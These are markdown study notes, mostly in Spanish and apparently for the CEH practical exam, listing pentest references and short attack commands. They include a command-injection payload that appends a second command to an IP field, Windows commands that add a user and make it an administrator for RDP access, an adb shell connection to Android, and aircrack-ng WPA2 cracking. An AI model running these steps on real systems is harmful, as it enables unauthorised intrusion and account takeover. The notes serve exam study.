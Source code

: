 > Estas son algunas referencias que me parece interesante tener en cuenta

### https://pentestmonkey.net/tools/web-shells/php-reverse-shell

### https://www.invicti.com/learn/remote-code-execution-rce/

### https://swisskyrepo.github.io/InternalAllTheThings/

### https://github.com/Creanyx0/CEHv12-practical-Notes/blob/main/Elisa-Alises-NotesCEHv12.md

### https://github.com/3ls3if/Cybersecurity-Notes/blob/main/ethical-hacking-and-pen-testing-notes/active-directory-pentesting/hacking-active-directory-environment/enumeration.md

<br>

### Command Injection

```8.8.8.8;pwd``` o ```8.8.8.8|<comando>```

``net user``  (Find users)
 		       
``dir C:\`` (directory listing)

``net user Test/Add``  (Add a user)

``net user Test``      (Check a user)

``net localgroup Administrators Test/Add``   (To convert the test account to admin)

``net user Test``      (Once again check to see if it has become administrator) *Now you can do a RDP connection with the given ip and the Test account which you created.*

<br>

### Conexion a Android

```adb connect IP:5555```    (Connect adb with parrot)

```adb shell```

<br>

### Cracking Wifi Password

```aircrack-ng [pcap file]``` **For cracking WEP network**

```aircrack-ng -a2 -b [Target BSSID] -w [password_Wordlist.txt] [WP2 PCAP file]``` **For cracking WPA2 or other networks through the captured .pcap file**

### IOT

Tener presente que el protocolo es MQTT

### Busqueda de Archivos

```dir /b/s “nombra_archivo*”``` En windows

```find . / -name <NombreArchivo*> 2>/dev/null``` En linux
